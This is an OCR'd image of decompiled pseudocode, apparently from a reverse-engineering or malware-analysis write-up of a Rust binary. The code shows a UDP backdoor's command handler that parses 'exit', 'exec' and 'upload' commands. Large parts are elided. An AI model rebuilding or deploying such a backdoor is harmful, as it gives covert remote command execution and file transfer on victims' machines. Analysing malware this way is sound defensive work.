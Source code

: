 ```c
            std::net::udp::UdpSocket::send::hc00b4ab8362b1a2d(
              wtf,
              &sock,
              "Invalid backdoor command\r\n",
              26i64);
            v3 = v183;
            if ( !wtf[0].zero )
              goto LABEL_37;
            bytes_recv = wtf[0].nrecv;
            goto TEARDOWN_2;
          }
          if ( *(_DWORD *)cmd.str == 'tixe' ) {  // exit command
            bytes_recv = 0i64;
            goto TEARDOWN_2;
          }
          if ( *(__int64 *)((char *)&a1[1].zero + 7) < 5ui64 )
            goto INVALID_BACKDOOR_CMD;
          if ( !(*(_DWORD *)cmd.str ^ 'cexe' | *(unsigned __int8 *)(cmd.str + 4) ^ ' ') )// 'exec ' command
            break;
          if ( *(__int64 *)((char *)&a1[1].zero + 7) < 7ui64
            || *(_DWORD *)cmd.str ^ 'olpu' | *(_DWORD *)(cmd.str + 3) ^ ' dao' ) {// 'upload ' command
            goto INVALID_BACKDOOR_CMD;
          }
          // UPLOAD COMMAND
          ((void (__fastcall *)(__int64 *, string *))_$LT$alloc..string..String$u20$as$u20$core..clone..Clone$GT$::clone::heb9ee2875b07a706)(
            &v153,
            &cmd);
          v81 = (__int64)v154;
          /* ... */            
          while ( 1 ) {
            filename__ = filename_;
            LOBYTE(v97) = 13;
            // drop newline
            v99 = core::slice::memchr::memrchr::h10b503721daa6ef5(v97, filename_, v98);
            filename_ = v184;
            if ( v99 != 1 ) {
              filename__ = v184;
              sub_140037680("Can't find response end", 23i64, &off_1400387A0);
            }
            /* ... */
          }
          /* ... */           
            for ( i = 1i64; ; v178 = i )
            {
              v111 = sub_140005CC0(wtf);        // locate size
              if ( !v111 )
                break;
              /* ... */  
            }
            /* ... */  
            if ( i == 2 ) {
              filename_with_size = *(_QWORD *)v177;
              filename_len = *((_QWORD *)v177 + 1);
              v120 = *((_QWORD *)v177 + 2);
              v121 = *((_QWORD *)v177 + 3);
              v193 = v177;
              v189 = v177;
              v192 = v176;
              v188 = v176;
```